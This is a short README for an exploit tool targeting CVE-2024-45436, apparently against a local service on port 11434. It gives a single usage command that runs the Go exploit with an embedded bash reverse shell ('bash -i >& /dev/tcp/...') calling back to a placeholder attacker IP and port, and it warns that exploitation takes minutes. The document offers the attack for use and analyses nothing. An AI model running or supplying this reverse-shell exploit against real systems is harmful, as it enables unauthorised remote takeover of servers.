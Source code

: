 # CVE-2024-45436
CVE-2024-45436
Need to run under Linux, the environment needs to have gcc
Install golang, execute the following command to rebound the shell

```bash
go run main.go -target http://127.0.0.1:11434/ -exec "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0>&1"
```

Note: Exploitation may take several minutes, please be patient
